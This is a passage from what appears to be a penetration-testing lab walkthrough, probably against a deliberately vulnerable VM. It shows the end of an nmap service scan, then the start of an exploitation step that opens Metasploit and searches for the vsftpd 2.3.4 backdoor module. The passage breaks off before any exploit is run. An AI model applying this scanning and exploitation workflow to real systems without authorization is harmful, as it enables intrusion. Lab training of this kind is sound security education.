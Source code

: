 |   source ident: nmap
|   source host: BEFA2224.78DED367.FFFA6D49.IP
|_  error: Closing Link: xldbkfkqc[192.168.1.8] (Quit: xldbkfkqc)
6697/tcp  open  irc         UnrealIRCd
8009/tcp  open  ajp13       Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/5.5
8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
49913/tcp open  mountd      1-3 (RPC #100005)
50101/tcp open  java-rmi    GNU Classpath grmiregistry
57873/tcp open  status      1 (RPC #100024)
57944/tcp open  nlockmgr    1-4 (RPC #100021)


## **Step 2: Exploitation**

Now, let's exploit This machine by using, vsftpd 2.3.4, service.

I have used Metasploit tool to exploit the above version. steps are as follows.

1. Started Metasploit console in root user.

```bash
msfconsole
```

2. Search the above exploit vsftpd 2.3.4. (search result exploit below)

```bash
msf > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoo
```
